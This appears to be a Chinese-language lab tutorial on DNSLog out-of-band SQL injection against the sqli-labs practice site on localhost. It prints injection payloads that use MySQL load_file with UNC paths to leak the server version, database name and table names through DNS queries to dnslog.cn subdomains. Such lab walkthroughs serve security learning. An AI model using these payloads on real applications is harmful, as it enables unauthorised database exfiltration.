






# 前提
  
secure_file_prive=null ––限制mysqld 不允许导入导出

secure_file_priv=/path/ – --限制mysqld的导入导出只能发生在默认的/path/目录下

secure_file_priv="" – --不对mysqld 的导入 导出做限制

# 正式
先点击左侧“获取子域名”，然后复制他给的子域名，在cmd里面ping一下，结束后点击右侧按钮刷新。  

  

  
"\\\\" 四个\不能少  
注意.uifm3e.dnslog.cn是你的子域名，前面要加个.。  
后面的\\xxx.txt，\\是必须的，xxx.txt这部分随便是什么内容，不能为空。   
  
查看版本信息：（注意包裹符  
[?](http://127.0.0.1/sqli-labs-master/Less-1/?)id=1' and load_file(concat("\\\\",version(),".vo9tus.dnslog.cn\\robots.txt")) -- -  
?id=1" and load_file(concat("\\\\",version(),".ow2ur7.dnslog.cn\\robots.txt"))-- -  

  

  
库名  
?id=1' and load_file(concat("\\\\",database(),".7rknei.dnslog.cn\\robots.txt"))--+  

  
表名  
?id=1' and load_file(concat("\\\\",(select group_concat(table_name SEPARATOR'-') from information_schema.tables where table_schema='security'),".uifm3e.dnslog.cn\\xsy.txt"))--+  

  
 

